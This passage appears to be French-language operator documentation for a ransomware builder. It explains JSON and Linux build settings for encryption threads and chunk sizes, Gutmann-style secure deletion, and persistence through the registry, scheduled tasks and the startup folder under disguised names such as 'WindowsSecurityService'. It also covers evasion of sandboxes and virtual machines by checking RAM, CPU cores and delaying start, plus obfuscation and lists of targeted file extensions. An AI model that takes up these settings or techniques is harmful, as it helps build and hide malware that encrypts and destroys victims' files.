 ```json
    "chunk_size": 1048576,               // Taille chunk (1MB)
    "progress_callback": true,            // Callbacks de progression
    "verify_integrity": true,             // Vérification intégrité
    "secure_delete_passes": 7             // Passes d'effacement sécurisé
  },
  
  "persistence": {
    "methods": [                         // Méthodes de persistance
      "registry",                        // Registre Windows
      "scheduled_task",                  // Tâche planifiée
      "startup_folder"                   // Dossier démarrage
    ],
    "service_name": "WindowsSecurityService",
    "task_name": "SystemSecurityUpdate"
  }
}
```

### Détails Payload

#### Contrôles d'Exécution
- **`delay_start`** : Évite la détection heuristique immédiate
- **`minimum_ram_gb`** : 4GB+ (évite les sandboxes low-resource)
- **`minimum_cpu_cores`** : 2+ (évite les VM mono-core)

#### Performance de Chiffrement
- **`threads`** : 
  - 1-4 : Plus discret, CPU usage faible
  - 8+ : Plus rapide, plus visible
- **`chunk_size`** :
  - 64KB : Faible usage mémoire
  - 1MB : Équilibré performance/mémoire
  - 10MB+ : Très rapide, usage mémoire élevé

#### Effacement Sécurisé
- **`secure_delete_passes`** :
  - 1 : Rapide, récupération possible
  - 3 : Standard DoD
  - 7 : Méthode Gutmann (recommandé)
  - 35 : Gutmann complet (très lent)

---

## 4. Configuration Linux (`linux_build.conf`)

### Variables Principales
```bash
# Architecture cible
TARGET_ARCH="x86_64"        # x86_64, i686, arm, aarch64

# Niveau d'obfuscation
OBFUSCATION_LEVEL="high"    # low, medium, high

# Flags de compilation
CFLAGS="-O3 -fno-stack-protector -static"
LDFLAGS="-s -Wl,--gc-sections"

# Extensions cibles
TARGET_EXTENSIONS=(".txt" ".pdf" ".jpg")

# Chemins exclus
EXCLUDED_PATHS=("/bin" "/usr/bin" "/sbin")
```